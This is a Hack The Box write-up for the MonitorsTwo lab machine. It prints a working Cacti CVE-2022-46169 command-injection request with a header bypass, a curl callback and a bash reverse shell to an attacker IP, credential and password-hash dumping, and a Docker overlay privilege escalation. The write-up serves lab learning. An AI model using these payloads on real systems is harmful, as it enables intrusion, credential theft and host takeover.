

# MonitorsTwo Writeup - by Thammanant Thamtaranon  

- MonitorsTwo is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- I began with a full TCP port scan including service/version detection and OS fingerprinting:  
  `nmap -A -T4 -p- 10.10.11.211`  

  

- The scan revealed two open ports:  
  - 22 (SSH)  
  - 80 (HTTP)  

## Scanning & Enumeration  
- Upon accessing the web service, I identified the application as Cacti version 1.2.22.

 

## Exploitation  
- Researching this specific Cacti version led me to discover **CVE-2022-46169**, a critical unauthenticated command injection vulnerability affecting the `remote_agent.php` endpoint. This vulnerability occurs due to insufficient input sanitization in the `poller_id` parameter.

- Initial exploitation attempts failed due to IP-based restrictions:  
  `GET /remote_agent.php?action=polldata&poller_id=1;id&host_id=1&local_data_ids[]=1`  

  

- Bypassing this restriction required adding a spoofed localhost header:  
  `X-Forwarded-For: 127.0.0.1`  

- After extensive parameter testing, I discovered valid parameters that would execute commands:  
  `host_id=1&local_data_ids[]=6`  

- Successful command execution was verified by triggering a callback to my attack machine:  
  `GET /remote_agent.php?action=polldata&poller_id=1;curl${IFS}10.10.16.11:8000&host_id=1&local_data_ids[]=6`  

  
  

- This led to establishing a reverse shell connection as the `www-data` user:  
  `bash -c 'bash -i >& /dev/tcp/10.10.16.11/4444 0>&1'`  

  

- While exploring the container environment, I discovered database credentials in the Cacti configuration file:  
  `cat /var/www/html/cacti/include/config.php`  

  

- Using these credentials, I enumerated the MySQL database structure:  
  `mysql -u root -h db -proot -e "SHOW DATABASES;"`  
  `mysql -u root -h db -proot -e "USE cacti; SHOW TABLES;"`  

- The `user_auth` table contained password hashes for Cacti users:  
  `mysql -u root -h db -proot -e "USE cacti; SELECT * FROM user_auth;"`  

  

- I successfully cracked user `marcus`'s hash using John the Ripper:  
  `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`  

  

- The cracked credentials granted SSH access as the `marcus` user:  
  `ssh marcus@10.10.11.211`  

- I then captured the user flag.

## Privilege Escalation  
- Checking sudo privileges revealed that, unfortunately, user `marcus` was not permitted to execute any commands via sudo:  
  `sudo -l`  

- We found a mail for user `marcus`.

- The mail described three vulnerabilities, the most interesting being **CVE-2021-41091**.
- **CVE-2021-41091** is a Docker Engine (Moby) vulnerability that allows attackers inside a container to traverse directories and access/modify files on the host system due to insecure permissions in `/var/lib/docker`.

- We checked the Docker version and confirmed the vulnerability.

- The exploit indicates that obtaining root on the container allows root access on the host machine.
- We re-entered the container.
- We ran the command `find / -perm -4000 -type f 2>/dev/null` to check for any SUID files and found `capsh`.

- Searching GTFOBins for `capsh` revealed a method to gain root privileges.

- We gained root in the container.

- We then ran `chmod +s /bin/bash` inside the container.
- On the host machine, we identified the overlay mount points:  
  `findmnt | grep "/var/lib/docker/overlay2" | awk '{print $1}'`

- Since we were unsure which overlay contained our SUID bash, we executed `/bin/bash -p` on each.
- This gave us a root shell on the host machine.

- Finally, we captured the root flag.
